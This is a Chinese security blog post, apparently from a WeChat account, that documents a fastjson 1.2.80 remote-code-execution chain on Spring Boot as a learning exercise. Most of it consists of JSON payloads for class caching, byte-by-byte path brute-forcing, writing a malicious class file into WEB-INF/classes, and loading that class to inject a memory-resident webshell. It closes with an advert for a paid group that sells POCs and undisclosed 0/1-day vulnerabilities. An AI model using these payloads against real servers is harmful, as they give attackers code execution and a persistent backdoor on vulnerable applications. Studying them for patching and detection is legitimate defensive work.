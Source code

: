 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzMDcxNzg4MA==&mid=2247484613&idx=1&sn=81017eb66ae71f551de7318bddcf1826

#  fastjson 1.2.80 springboot下rce利用链学习  
原创 zzz  良月安全   2025-06-20 01:30  
  
# 免责声明  
  
本公众号所发布的所有内容，包括但不限于信息、工具、项目以及文章，均旨在提供学习与研究之用。所有工具安全性自测。如因此产生的一切不良后果与文章作者和本公众号无关。如有涉及公司与个人敏感信息，侵权烦请告知，我们会立即删除并致歉。  
# fastjson 1.2.80 springboot下rce利用链学习  
## 前言  
  
fastjson 1.2.73-1.2.80版本，可通过如下payload加载继承了Exception的类  

```
{
    &#34;@type&#34;:&#34;java.lang.Exception&#34;,
    &#34;@type&#34;:&#34;calc&#34;
}

```

  
当在本地找不到要加载的类时，TomcatEmbeddedWebappClassLoader类加载器加载类时会尝试从tomcat-docbase下的WEB-INF/classes目录中查找类进行加载  
## 类缓存  
  
首先发送如下请求，将要用到的类加入到缓存  

```
{
    &#34;a&#34;: &#34;{    \&#34;@type\&#34;: \&#34;java.lang.Exception\&#34;,    \&#34;@type\&#34;: \&#34;com.fasterxml.jackson.core.exc.InputCoercionException\&#34;,    \&#34;p\&#34;: {    }  }&#34;,
    &#34;b&#34;: {
      &#34;$ref&#34;: &#34;$.a.a&#34;
    },
    &#34;c&#34;: &#34;{  \&#34;@type\&#34;: \&#34;com.fasterxml.jackson.core.JsonParser\&#34;,  \&#34;@type\&#34;: \&#34;com.fasterxml.jackson.core.json.UTF8StreamJsonParser\&#34;,  \&#34;in\&#34;: {}}&#34;,
    &#34;d&#34;: {
      &#34;$ref&#34;: &#34;$.c.c&#34;
    }
  }

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rIctWiaMP3Zk9fBkrwqyMMZFVebPt7TPVls7w06KgPpvXmiciasCtp9lJA/640?wx_fmt=png&from=appmsg "")  
## 爆破路径  
  
然后需要获取tomcat-docbase的路径，利用列举目录的利用链来爆破获取
```
${file}
```

  
为要读取的文件目录，linux下启动的spring，tomcat-docbase的路径默认在/tmp下，
```
${data}
```

  
为需要爆破的路径的首字符，其格式如：[104]，如果正确则会返回对应的字符  

```
{
    &#34;a&#34;: {
      &#34;@type&#34;: &#34;java.io.InputStream&#34;,
      &#34;@type&#34;: &#34;org.apache.commons.io.input.BOMInputStream&#34;,
      &#34;delegate&#34;: {
        &#34;@type&#34;: &#34;org.apache.commons.io.input.BOMInputStream&#34;,
        &#34;delegate&#34;: {
          &#34;@type&#34;: &#34;org.apache.commons.io.input.ReaderInputStream&#34;,
          &#34;reader&#34;: {
            &#34;@type&#34;: &#34;jdk.nashorn.api.scripting.URLReader&#34;,
            &#34;url&#34;: &#34;${file}&#34;
          },
          &#34;charsetName&#34;: &#34;UTF-8&#34;,
          &#34;bufferSize&#34;: &#34;1024&#34;
        },
        &#34;boms&#34;: [
          {
            &#34;charsetName&#34;: &#34;UTF-8&#34;,
            &#34;bytes&#34;: ${data}
          }
        ]
      },
      &#34;boms&#34;: [
        {
          &#34;charsetName&#34;: &#34;UTF-8&#34;,
          &#34;bytes&#34;: [1]
        }
      ]
    },
    &#34;b&#34;: {&#34;$ref&#34;:&#34;$.a.delegate&#34;}
  }

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rfjExrcFXPtAZMphexU1H0zOUgkMcv31Kw3Sjyib8TtCsm6dQWN6GHKA/640?wx_fmt=png&from=appmsg "")  
  
第一个爆破成功了，就接着爆破第二个，[104,115]  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rV5GBEyBtSpibtT2ibWGGtaQyN3GO76y1htGYzbMaSmqkAzdLB0OlJgbw/640?wx_fmt=png&from=appmsg "")  
  
如此，即可爆破出/tmp目录下tomcat-docbase的路径  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rhXODg7nianicMU2rRMDSLLy18ibGEhxjNVSNa6Kjk0cagbDLKmrbHS6icA/640?wx_fmt=png&from=appmsg "")  
## 写入class文件  
  
向tomcat-docbase的路径下写入/WEB-INF/classes/xxx.class文件，xxx.class文件就是我们构造的恶意class文件，利用如下文件写入链，
```
${shellcode}
```

  
为要写入的文件内容，
```
${size}
```

  
为要写入的文件大小，
```
${file2write}
```

  
为要写入的文件路径，这条利用链可以直接创建目录  

```
{
    &#34;a&#34;: {
      &#34;@type&#34;: &#34;java.io.InputStream&#34;,
      &#34;@type&#34;: &#34;org.apache.commons.io.input.AutoCloseInputStream&#34;,
      &#34;in&#34;: {
        &#34;@type&#34;: &#34;org.apache.commons.io.input.TeeInputStream&#34;,
        &#34;input&#34;: {
          &#34;@type&#34;: &#34;org.apache.commons.io.input.CharSequenceInputStream&#34;,
          &#34;cs&#34;: {
            &#34;@type&#34;: &#34;java.lang.String&#34;
            &#34;${shellcode}&#34;,
            &#34;charset&#34;: &#34;iso-8859-1&#34;,
            &#34;bufferSize&#34;: ${size}
          },
          &#34;branch&#34;: {
            &#34;@type&#34;: &#34;org.apache.commons.io.output.WriterOutputStream&#34;,
            &#34;writer&#34;: {
              &#34;@type&#34;: &#34;org.apache.commons.io.output.LockableFileWriter&#34;,
              &#34;file&#34;: &#34;${file2write}&#34;,
              &#34;charset&#34;: &#34;iso-8859-1&#34;,
              &#34;append&#34;: true
            },
            &#34;charset&#34;: &#34;iso-8859-1&#34;,
            &#34;bufferSize&#34;: 1024,
            &#34;writeImmediately&#34;: true
          },
          &#34;closeBranch&#34;: true
        }
      },
      &#34;b&#34;: {
        &#34;@type&#34;: &#34;java.io.InputStream&#34;,
        &#34;@type&#34;: &#34;org.apache.commons.io.input.ReaderInputStream&#34;,
        &#34;reader&#34;: {
          &#34;@type&#34;: &#34;org.apache.commons.io.input.XmlStreamReader&#34;,
          &#34;inputStream&#34;: {
            &#34;$ref&#34;: &#34;$.a&#34;
          },
          &#34;httpContentType&#34;: &#34;text/xml&#34;,
          &#34;lenient&#34;: false,
          &#34;defaultEncoding&#34;: &#34;iso-8859-1&#34;
        },
        &#34;charsetName&#34;: &#34;iso-8859-1&#34;,
        &#34;bufferSize&#34;: 1024
      },
      &#34;c&#34;: {}
    }

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rpDfpzriclQmWE2Iq53TxwAwhhE6AL87vRBkmmuW3EU3jNmA2jdHkcPA/640?wx_fmt=png&from=appmsg "")  
  
如果要确认有没有成功写入class文件，可以利用上面的爆破路径利用链读取/tmp/${docbase}/WEB-INF/classes目录进行确认  
## 类加载  
  
构造恶意类用jmg生成一个spring mvc的内存马就行了，需要继承Exception类  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2r5hGoUjhMljJInibC5ibIxPN3EBoibHIoSw13wP4EFoYQCFnQQat8Dt0nQ/640?wx_fmt=png&from=appmsg "")  
  
最后发送如下poc，加载我们构造的恶意class文件  

```
{
    &#34;@type&#34;:&#34;java.lang.Exception&#34;,
    &#34;@type&#34;:&#34;StringUtilException&#34;
  }

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rZDepNVLptIxFKoNNUOIIaoicqGxNgjTndJuyMWtfHOia33Ad2bRvaicmg/640?wx_fmt=png&from=appmsg "")  
  
成功注入内存马  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2r8uuhAtffKwsaXXiapxUobuiakpw4qAuiaseOMEgcG0AQNNKiapRt4gtbCw/640?wx_fmt=png&from=appmsg "")  
## 参考链接  
  
https://xz.aliyun.com/news/16145 https://mp.weixin.qq.com/s/n8RW0NIllcQ0sn3nI9uceA  
# 关于星球  
  
星球里有团队内部POC分享。星球定期更新安全内容，包括：内部漏洞库情报分享（包括部分未公开0/1day）、poc利用工具及内部最新研究成果。圈子目前价格为129元（交个朋友），后续人员加入数量多的话会考虑涨价（先到先得！！）感谢师傅们的支持！！![image](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82jgcXGIvrTZZpzXJ1uibrCtRRn4yytlCGSsSfRZicib62GlHaz4ibXI8zWEvTuoW9G3e76BmaRBgvpy0Q/640?wx_fmt=png&from=appmsg "")  
  
  
